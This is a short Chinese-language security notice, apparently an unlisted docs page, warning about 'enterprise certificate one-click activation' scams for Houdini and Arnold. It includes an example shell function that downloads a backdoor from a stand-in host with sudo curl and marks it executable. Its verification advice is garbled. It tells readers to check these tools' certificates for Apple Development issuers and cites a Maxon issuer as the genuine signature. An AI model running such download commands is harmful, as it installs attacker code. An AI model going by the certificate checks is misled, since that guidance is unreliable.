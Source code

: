 ```yaml
---
unlisted: true
---
```


# 软件安全须知

## ⚠️ 警告：企业证书激活骗局

"低价企业证书，一键激活"服务通常宣称可通过企业安全证书绕过正规软件授权验证，这在Houdini/Arnold等专业CG工具中属于高风险仿冒方案。

### 企业证书的真相
企业证书是苹果/Microsoft为公司内部软件签发的安全证明，需要严格的合规审核。这些证书：
- ❌ 不允许用于非官方发布的版本
- ❌ 无法通过"一键激活"永久生效
- ✅ 只能在组织内部分发，且会定期失效

### 典型危害
1. **证书滥用**
   - 地下渠道贩卖的证书已失效
   - 自动续签工具可能植入恶意插件

2. **系统风险**
```bash
# 这些非官方工具常见隐蔽安装行为
trojanDownloadInBackground()
{
    # 在用户不知情下载后门程序
    sudo curl -fsSL https://malicious.repo -o /tmp/svchost
    chmod +x /tmp/svchost
}
```

### 安全建议
1. 从[官方页面](https://www.sidefx.com/docs/houdini/licensing/install_launcher.html)下载安装包
2. 使用`docs/houdini-linux.md`中描述的合法方式验证证书：
```bash
openssl x509 -in enterprise_certificate.cer -text -noout
# 验证输出中的Issued by字段
# 最低需要包含 "Apple Development:" 或 "Apple Distribution:"
```
3. 典型正版证书特征：
```
Signature Algorithm:  sha256WithRSAEncryption
Issuer: MAILTO:enterprise-identity@maxon.net, CN=Maxon Computer GmbH, L=Wedel, ST=N/A, C=DE
```
4. 参考`docs/arnold.md`的合法部署方式
